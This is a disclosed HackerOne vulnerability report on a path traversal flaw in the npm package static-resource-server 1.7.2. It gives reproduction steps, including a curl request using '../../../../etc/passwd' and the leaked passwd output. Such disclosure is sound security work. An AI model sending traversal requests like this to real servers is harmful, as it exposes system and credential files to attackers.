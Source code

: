 # [static-resource-server]  Path Traversal allows to read content of arbitrary file on the server

## Report Details
- **Report ID**: 432600
- **URL**: https://hackerone.com/reports/432600
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-11-01T06:25:40.078Z
- **Disclosed**: 2019-01-03T19:02:03.160Z

## Reporter
- **Username**: libcontainer
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
# Module

**module name:** static-resource-server
**version:** 1.7.2
**npm page:** `https://www.npmjs.com/package/static-resource-server`

## Module Description

> A tiny http server that provides local static resource access 

## Module Stats

> Replace stats below with numbers from npm’s module page:

[0] downloads in the last day
[0] downloads in the last week
[12] downloads in the last month

~ 639 Downloads per Year

# Vulnerability

## Vulnerability Description

> Directory traversal through the url which doesn't verify the file is from the root directory path.

## Steps To Reproduce:

> install static-resource-server using npm

`$ npm install static-resource-server`

run server from command line:

`$ ./static-resource-server -P 8080 --root $HOME/data/static`

use curl to try accessing internal files

`$ curl --path-as-is --url 'http://127.0.0.1:8080/../../../../etc/passwd' `

Now the corresponding file will be loaded from the server and sent as response to the client ( curl )

Result:

```
##
# User Database
# 
# Note that this file is consulted directly only when the system is running
# in single-user mode.  At other times this information is provided by
# Open Directory.
#
# See the opendirectoryd(8) man page for additional information about
# Open Directory.
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
daemon:*:1:1:System Services:/var/root:/usr/bin/false
_uucp:*:4:4:Unix to Unix Copy Protocol:/var/spool/uucp:/usr/sbin/uucico
_taskgated:*:13:13:Task Gate Daemon:/var/empty:/usr/bin/false
_networkd:*:24:24:Network Services:/var/networkd:/usr/bin/false
_installassistant:*:25:25:Install Assistant:/var/empty:/usr/bin/false
<<< MASKED DATA >>>
```


## Supporting Material/References:

- MacOS 10.14.1 
- Node version v10.11.0
- npm version  6.4.1

# Wrap up

- I contacted the maintainer to let them know: No
- I opened an issue in the related repository: No

## Impact

This vulnerability allows to read content of any file on the server

## Attachments
No attachments
